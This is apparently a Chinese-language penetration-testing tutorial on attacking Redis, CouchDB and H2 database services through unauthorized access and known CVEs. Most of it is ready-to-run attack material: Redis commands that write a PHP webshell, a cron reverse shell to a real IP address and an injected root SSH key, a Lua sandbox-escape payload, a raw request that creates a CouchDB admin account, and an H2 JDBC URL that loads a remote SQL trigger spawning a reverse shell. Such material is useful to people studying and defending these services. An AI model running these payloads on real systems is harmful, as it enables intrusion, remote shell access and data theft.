

# 服务攻防-数据库安全&Redis&CouchDB&H2database&未授权访问&CVE漏洞

\#前置知识：

1、复现环境：Vulfocus(官方在线的无法使用)

官方手册：https://fofapro.github.io/vulfocus/#/

搭建踩坑：（无法同步）

https://blog.csdn.net/m0_64563956/article/details/131229046

 

2、服务判断:

端口扫描：利用服务开启后目标端口开放判断

组合判断：利用搭建常见组合分析可能开放服务

信息来源：访问端口提示软件版本，应用信息等

强弱特征：如框架shiro强特征rememberMe,SpringBoot默认页面等

 

3、对象类别:

对服务进行类别划分，通过服务功能理解，如数据库有帐号密码就有爆破利用方法，也可以针对服务公开的CVE进行漏洞测试及服务常见的错误安全配置导致的未授权访问等。

 

4、利用方法:

主要集中在CVE漏洞，未授权访问，弱口令爆破等

 

\#数据库应用-Redis-未授权访问&CVE漏洞

默认端口：6379

Redis是一套开源的使用ANSI C编写、支持网络、可基于内存亦可持久化的日志型、键值存储数据库，并提供多种语言的API。Redis如果在没有开启认证的情况下，可以导致任意用户在可以访问目标服务器的情况下未授权访问Redis以及读取Redis的数据。

 

1、未授权访问：CNVD-2015-07557

-写Webshell需得到Web路径

利用条件：Web目录权限可读写

config set dir /tmp       #设置WEB写入目录

config set dbfilename 1.php   #设置写入文件名

set test "<?php phpinfo();?>"  #设置写入文件代码

bgsave             #保存执行

save              #保存执行

注意：部分没目录权限读写权限        

 

-写定时任务反弹shell

利用条件：Redis服务使用ROOT账号启动，安全模式protected-mode处于关闭状态

config set dir /var/spool/cron

set yy "\n\n\n* * * * * bash -i >& /dev/tcp/47.94.236.117/5555 0>&1\n\n\n"

config set dbfilename x

save

注意：

centos会忽略乱码去执行格式正确的任务计划 

而ubuntu并不会忽略这些乱码，所以导致命令执行失败

 

-写入Linux ssh-key公钥

利用条件：Redis服务使用ROOT账号启动，安全模式protected-mode处于关闭状态

允许使用密钥登录，即可远程写入一个公钥，直接登录远程服务器

ssh-keygen -t rsa

cd /root/.ssh/

(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > key.txt

cat key.txt | redis-cli -h 目标IP -x set xxx

//以上步骤在自己的攻击机器上执行

config set dir /root/.ssh/

config set dbfilename authorized_keys

save

cd /root/.ssh/

ssh -i id_rsa root@目标IP

 

-自动化项目：

https://github.com/n0b0dyCN/redis-rogue-server

python redis-rogue-server.py --rhost 目标IP --rport 目标端口 --lhost IP

 

2、未授权访问-CNVD-2019-21763

由于在Reids 4.x及以上版本中新增了模块功能，攻击者可通过外部拓展，在Redis中实现一个新的Redis命令。攻击者可以利用该功能引入模块，在未授权访问的情况下使被攻击服务器加载恶意.so 文件，从而实现远程代码执行。

https://github.com/vulhub/redis-rogue-getshell

python redis-master.py -r 目标IP -p 目标端口 -L 攻击IP -P 8888 -f RedisModulesSDK/exp.so -c "id"

 

3、沙箱绕过RCE-CVE-2022-0543

Poc：执行id命令

eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0

 

\#数据库应用-Couchdb-未授权越权&CVE漏洞

默认端口：5984

-Couchdb 垂直权限绕过（CVE-2017-12635）

Apache CouchDB是一个开源数据库，专注于易用性和成为"完全拥抱web的数据库"。它是一个使用JSON作为存储格式，JavaScript作为查询语言，MapReduce和HTTP作为API的NoSQL数据库。应用广泛，如BBC用在其动态内容展示平台，Credit Suisse用在其内部的商品部门的市场框架，Meebo，用在其社交平台（web和应用程序）。在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露利用。

 

1、先创建用户

PUT /_users/org.couchdb.user:xiaodi HTTP/1.1

Host: 47.94.236.117:44389

Accept: */*

Accept-Language: en

User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)

Connection: close

Content-Type: application/json

Content-Length: 108

 

{

 "type": "user",

 "name": "xiaodi",

 "roles": ["_admin"],

 "roles": [],

 "password": "xiaodi"

}

2、登录用户授权

Get:/_utils/

xiaodi xiaodi

 

-Couchdb 命令执行 （CVE-2017-12636）

1、下载exp.py

2、修改目标和反弹地址

3、Python3调用执行即可

https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2017-12636/exp.py

 

\#数据库应用-H2database--未授权访问&CVE漏洞

默认端口：20051

Java SQL 数据库 H2,H2的主要特点是：非常快，开源，JDBC API；嵌入式和服务器模式；内存数据库；基于浏览器的控制台应用程序。H2 数据库控制台中的另一个未经身份验证的 RCE 漏洞，在v2.1.210+中修复。2.1.210 之前的H2控制台允许远程攻击者通过包含子字符串的jdbc:h2:mem JDBC URL执行任意代码。

1、未授权进入：

jdbc:h2:mem:test1;FORBID_CREATION=FALSE;IGNORE_UNKNOWN_SETTINGS=TRUE;FORBID_CREATION=FALSE;\

 

2、RCE执行反弹：

-创建数据库文件：h2database.sql

CREATE TABLE test (

   id INT NOT NULL

 );

CREATE TRIGGER TRIG_JS BEFORE INSERT ON TEST AS '//javascript

Java.type("java.lang.Runtime").getRuntime().exec("bash -c {echo,base64加密的反弹shell指令}|{base64,-d}|{bash,-i}");';

\#反弹指令示例：bash -i >& /dev/tcp/x.x.x.x/6666 0>&1

 

-启动提供SQL文件远程加载服务

python3 -m http.server 端口

 

-填入Payload使其加载远程SQL

jdbc:h2:mem:test1;FORBID_CREATION=FALSE;IGNORE_UNKNOWN_SETTINGS=TRUE;FORBID_CREATION=FALSE;INIT=RUNSCRIPT FROM 'http://搭建的IP:端口/h2database.sql';\

nc -lvvp xxxx